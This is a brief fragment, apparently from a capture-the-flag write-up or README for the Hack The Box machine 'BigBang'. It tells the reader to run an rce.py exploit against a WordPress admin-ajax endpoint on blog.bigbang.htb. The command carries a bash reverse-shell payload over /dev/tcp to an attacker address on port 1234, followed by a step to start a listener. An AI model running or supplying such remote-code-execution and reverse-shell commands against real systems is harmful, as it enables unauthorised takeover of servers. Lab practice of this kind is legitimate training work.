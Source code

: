 download rce and lib file to the same dir and run the command 

python3 rce.py 'http://blog.bigbang.htb/wp-admin/admin-ajax.php' 'bash -c "bash -i >& /dev/tcp/[ip here]/1234 0>&1"'

start listner on 1234
